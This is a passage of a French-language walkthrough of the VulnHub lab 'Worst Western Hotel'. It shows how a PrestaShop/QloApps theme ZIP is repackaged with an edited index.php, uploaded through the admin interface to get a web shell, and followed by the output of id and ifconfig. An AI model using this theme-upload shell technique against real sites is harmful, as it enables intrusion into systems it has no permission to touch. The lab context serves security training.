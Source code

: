 ![VulnHub Worst Western Hotel Prestashop theme duplication](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/wwhotel/duplicate_prestashop_theme.png)  

En temps normal ça ne doit pas prendre une demi heure (arghh !).  

L'édition en local ressemble à ceci (les thèmes sont des archives ZIP) :  

```bash
mkdir yolo
cd yolo
unzip exported.zip
vi themes/yolo/index.php
zip -r new_theme .
```

Une fois notre *new\_theme.zip* uploadé via l'interface de gestion des thèmes on obtient notre shell à l'adresse */themes/yolo/index.php* qui nous renseigne par exemple sur notre utilisateur actuel :  

```plain
uid=1000(qloapps) gid=1000(qloapps) groups=1000(qloapps)
```

Un petit *ipconfig*, c'est là qu'il faut avoir les yeux en face des trous :  

```plain
eth0: flags=4163  mtu 1500
        inet 192.168.0.100  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:42:c0:a8:00:64  txqueuelen 0  (Ethernet)
        RX packets 3462362  bytes 310799606 (310.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3385714  bytes 4264715673 (4.2 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 6613  bytes 504600 (504.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6613  bytes 504600 (504.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
